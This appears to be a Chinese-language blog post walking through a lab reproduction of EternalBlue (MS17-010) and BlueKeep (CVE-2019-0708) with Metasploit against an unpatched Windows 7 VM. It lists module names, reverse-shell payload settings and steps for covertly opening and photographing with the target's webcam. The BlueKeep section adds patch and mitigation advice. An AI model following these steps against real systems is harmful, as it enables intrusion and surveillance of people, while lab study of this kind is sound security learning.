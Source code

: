 ```yaml
---
layout: post
title: 复现两个漏洞
date: 2019-09-19
categories: test
tags: 漏洞复现
---
```


# ms17-010漏洞复现，提权并打开摄像头，拍照

## 实验环境:kali-linux和Windows7(未装补丁)

Kali IP:192.168.1.107

win7 IP:192.168.1.102

首先检查kali的postgresql服务是否运行，命令:service postgresql status

![1]({{ "/assets/img/010 1.png" }})

显示active即正常运行，如果没有的话启动一下，service postgresql start

然后启动msfconsole

![1]({{ "/assets/img/010 2.png" }})

命令行显示msf则启动成功

search一下ms17

![1]({{ "/assets/img/010 3.png" }})

使用永恒之蓝漏洞
use exploit/windows/smb/ms17_010_eternalblue

![1]({{ "/assets/img/010 4.png" }})

先show options看看我们需要设置哪些参数

![1]({{ "/assets/img/010 5.png" }})

图上显示需要RHOSTS也就是目标靶机的IP，以及445端口

现在设置靶机IP

![1]({{ "/assets/img/010 6.png" }})

然后show payloads看看有哪些可以用的payload

![1]({{ "/assets/img/010 7.png" }})

我这里选择第15条 windows/x64/meterpreter/reverse_tcp，因为他的meterpreter模块可以简化win7的命令，并进行更丰富的操作.

set payload windows/x64/meterpreter/reverse_tcp之后再show options看看有没有需要添加的参数

![1]({{ "/assets/img/010 8.png" }})

这里需要添加LHOST监听，输入我们kali的IP地址就行了

![1]({{ "/assets/img/010 9.png" }})

现在所有选项已经设置，就可以开始攻击靶机了

![1]({{ "/assets/img/010 10.png" }})

成功并且加载meterpreter模块

![1]({{ "/assets/img/01011.png" }})

拿到权限

![1]({{ "/assets/img/01012.png" }})

扫描摄像头

![1]({{ "/assets/img/01013.png" }})

打开摄像头

![1]({{ "/assets/img/01014.png" }})

![1]({{ "/assets/img/01017.png" }})

拍照

![1]({{ "/assets/img/01015.png" }})

![1]({{ "/assets/img/01016.png" }})

当然，在meterpreter模块中，还有更多的操作，比如记录键盘输入以及截屏等等

# CVE-2019-0708漏洞复现提权

## 漏洞概述

2019年05月14日，微软发布了针对Windows远程桌面服务远程执行代码漏洞（CVE-20190708）的补丁，利用该漏洞攻击者能在未认证的情况下，通过发送特殊请求，在目标系统上执行任意代码，从而获取目标系统控制权限。该漏洞影响范围广泛，从Windows XP到server 2008 R2，危害被官方评级为严重，如存在该漏洞的用户应尽快安全补丁对该漏洞进行修补

## 防护建议

（1）请及时更新官方系统补丁，补丁地址：https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708
（2）关闭远程桌面服务
（3）开启网络身份验证（NLA）

## 受影响版本

Windows XP
Windows 7
Windows Server 2003
Windows Server 2008
Windows Server 2008 R2

## 实验环境:kali-linux和Windows7(开启远程桌面服务)

exp具体地址及其msf配置<a href="https://github.com/NAXG/cve_2019_0708_bluekeep_rce" target="_blank">https://github.com/NAXG/cve_2019_0708_bluekeep_rce</a>，记得reload_all加载新加的模块。

添加之后还是先打开msf，search 0708

![1]({{ "/assets/img/07081.png" }})

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![1]({{ "/assets/img/07082.png" }})

还是show options看看，只需要rhosts

![1]({{ "/assets/img/07083.png" }})

然后payload还是用上面010的哪个payload，之后需要再次设置lhost监听，设置之后再show targets看看攻击目标的选项，这里选择第三个，set target 3

![1]({{ "/assets/img/07084.png" }})

设置好之后run，win7迅速蓝屏，但是并没有拿到权限

![1]({{ "/assets/img/07085.png" }})

![1]({{ "/assets/img/0708.png" }})

经过百度和问大佬之后，大佬给我说虚拟机算是一个沙盒，让我试试set target 2

![1]({{ "/assets/img/07086.png" }})

成功拿到权限，进入meterpreter模块，并且没有蓝屏

![1]({{ "/assets/img/07087.png" }})




